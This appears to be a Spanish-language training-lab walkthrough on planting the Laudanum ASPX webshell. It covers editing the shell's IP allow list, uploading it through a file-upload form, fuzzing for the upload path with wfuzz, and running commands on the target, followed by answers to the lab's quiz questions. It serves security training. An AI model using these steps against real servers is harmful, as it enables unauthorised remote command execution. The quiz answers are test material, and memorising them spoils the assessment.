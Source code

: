 
**Laudanum** es un repositorio de archivos predefinidos que permite:
- Inyectar en una víctima y acceder a ella mediante una reverse shell
- Ejecutar comandos desde el navegador (webshell)
Incluye payloads preparados para atentar contra diferentes lenguajes de aplicaciones web: asp, aspx, jsp, php....

Los archivos de Laudanum se encuentran en el directorio*/usr/share/laudanum*.

Vamos a probar una webshell contra un servicio web.

Vamos a copiarnos una webshell en:
```shell-session
Polika4RM@htb[/htb]$ cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```


Las principales tecnologías de sitios web son:

| Lenguaje/Plataforma | Extensión de archivo webshell | Comentario                                                               |
| ------------------- | ----------------------------- | ------------------------------------------------------------------------ |
| ASP clásico         | `.asp`                        | Servidores Windows antiguos con IIS.                                     |
| ASP.NET             | `.aspx`                       | Windows moderno con IIS; muy usado en aplicaciones empresariales.        |
| JSP (Java)          | `.jsp`                        | Servidores Java/Tomcat, típicos en aplicaciones corporativas Java.       |
| PHP                 | `.php`                        | Servidores Linux/Windows con PHP instalado; el más común en web pública. |

Como modificaciones en este archivo, deberemos añadir nuestra IP (10.10.14.12) en la línea 59 del archivo demo.aspx.
```
string[] allowedIps = new string[] {"::1", "192.168.0.1", "127.0.0.1", "10.10.14.12"};
```

En el servidor web "status.inlanefreight.local" existe un botón de subir archivo. Cargamos dicha shell.
En el navegador, ingreamos a "status.inlanefreight.local//files/demo.aspx".
Y desde aquí podremos tener una webshell.

---
**QUESTIONS**
**Target: 10.129.42.197**
**VHOST needed:**
**1. Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)**

En primer lugar, en la máquina atacante añadimos el VHOST que aloja la máquina víctima, con:
```
echo "10.129.42.197 status.inlanefreight.local" | sudo tee -a "/etc/hosts"
```
Este comando lo que hace es añadir a /etc/hosts el texto "10.129.42.197 status.inlanefreight.local".
Esta página, al final de todo, nos permite subir un archivo. Aqui es donde subiremos la webshell. Pide que el formato sea únicamente .zip o tar.gz files.

Nos copiamos el archivo:
```
cp /usr/share/laudanum/aspx/shell.aspx .
```

Añadiendo a la línea 59 nuestra IP atacante: 
```
string[] allowedIps = new string[] {"::1","192.168.0.1", "127.0.0.1", "10.10.15.80"};
```

Subimos dicha Shell al servidor con la opción de "Upload File", y vamos a realizar fuzzing para descubir donde se aloja dicho archivo.
Ejecutamos:
```
wfuzz --hl=29 -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://status.inlanefreight.local/FUZZ
```
Y nos devuelve que existe el subdirectorio
```
http://status.inlanefreight.local/files
```

Pues, desde el navegador ejecutamos: 
```
http://status.inlanefreight.local/shell.aspx
```
Y vemos como nos encotramos en una webshell.
Esta es una máquina windows, pues, para ver el directorio actual en el que me encuentro ejecuto solamente: 
```
cd
```

Siendo al respuesta *c:\windows\system32\inetsrv*


**2.  Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)**
La respuesta es: */usr/share/laudanum/aspx/shell.aspx*

